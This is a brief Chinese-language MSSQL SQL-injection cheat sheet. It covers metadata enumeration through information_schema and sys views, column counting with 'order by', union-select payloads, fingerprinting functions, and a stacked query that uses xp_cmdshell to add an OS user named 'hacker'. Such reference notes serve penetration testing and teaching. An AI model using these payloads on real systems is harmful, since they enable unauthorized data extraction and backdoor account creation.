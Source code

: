 获取元数据

```
# 获取表信息
select table_name from information_schema.tables;

# 获取字段信息
select column_name from information_schema.columns where table_name='users';
```

数据库视图						|	说明		
---								|	---
sys.database					|	SQL Server中的所有数据库
sys.sql_logins				|	SQL Server中的所有登录名
information_schema.tables	|	当前用户数据库中的表
information_schema.columns	|	当前用户数据库中的列
sys.all_columns				|	用户定义对象和系统对象的所有列的联合
sys.database_principals		|	数据库中每个权限或列异常权限
sys.database_files			|	存储在数据库中的数据库文件
sysobjects					|	数据库中创建的每个对象

order by子句

```
# 测试字段
select id,username,password from users where id=1 order by num;
```

union查询

```
select id,username,password from users where id=1 union select 1,2,3;
select id,username,password from users where id=1 union select user from users;
```

* MSSQL函数

函数								|	说明
---									|	---
select suser_name()				|	返回用户的登录标识名
select user_name()				|	基于指定的标识号返回数据库用户名
select db_name()					|	返回数据库名称
select is_member('db_owner')	|	是否为数据库角色
select convert(int,'5')			|	数据库类型转换
stuff								|	字符串截取函数
ascii								|	取ascii码
char								|	根据ascii码取字符
getdate							|	返回日期
count								|	返回组中的总条数
cast								|	将一种数据类型的表达式显式转换为另一种数据类型的表达式
rand								|	返回随机值
is_srvrolemember					|	指示SQL Server登录名是否为指定服务器角色的成员

* MSSQL存储过程

```
select * from users where id=1; exec xp_cmdshell 'net user hacker hacker /add';
```

